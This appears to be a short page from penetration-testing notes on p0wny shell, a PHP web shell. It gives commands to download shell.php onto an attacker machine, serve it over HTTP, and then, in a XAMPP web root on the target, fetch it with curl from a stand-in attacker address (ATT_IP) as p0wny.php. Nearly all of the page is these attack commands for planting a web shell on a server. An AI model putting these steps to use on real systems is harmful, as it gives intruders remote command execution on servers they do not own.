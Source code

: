 # p0wny shell

{% embed url="https://github.com/flozz/p0wny-shell" %}



<pre class="language-bash" data-title="Attack machine"><code class="lang-bash"><strong>wget https://raw.githubusercontent.com/flozz/p0wny-shell/refs/heads/master/shell.php
</strong>
python3 -m http.server 80
</code></pre>

Upload the shell into the WebSite

{% code title="xamp example" overflow="wrap" %}
```bash
cd C:\xampp\htdocs
curl http://ATT_IP/shell.php -o p0wny.php
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
